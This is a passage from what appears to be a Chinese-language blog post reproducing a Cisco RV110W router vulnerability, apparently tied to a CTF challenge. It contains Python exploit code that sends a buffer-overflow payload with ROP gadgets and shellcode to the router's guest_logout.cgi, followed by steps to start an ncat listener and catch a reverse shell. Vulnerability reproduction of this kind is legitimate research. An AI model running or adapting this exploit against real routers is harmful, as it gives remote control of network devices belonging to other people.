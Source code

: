 

    pd1 = b"status_guestnet.asp" + b'a' * 0x31 + p32(jmp_a0) + b'b' * (85 - 49 - 4) + p32(jmp_s0) + b'c' * 0x18 + buf

    url = "https://192.168.1.1/guest_logout.cgi"
    pd2 = {
        "cmac": "12:af:aa:bb:cc:dd",
        "submit_button": pd1,
        "cip": "192.168.1.102"
    }

    requests.packages.urllib3.disable_warnings()
    requests.post(url, data=pd2, verify=False, timeout=300)

实施攻击（注意，如果是在虚拟机中，虚拟机选项一定得是桥接模式！！！不然你收不到回弹的信息）

首先使用nact开启监听

    ncat -lv 8888

然后调用脚本

    python3 exp.py

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/28.png)

监听的端口收到了回弹的shell
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/29.png)

实施成功！
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/30.png)


## reference
[xuanxuan](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

[zyen12138](https://zyen12138.github.io/2021/10/05/RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-2020%E5%B9%B4%E5%BC%BA%E7%BD%91%E6%9D%AF%E8%B5%9B%E9%A2%98/)

[la13x](https://la13x.github.io/2021/08/31/Real-World-Cisco-RV110W/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)

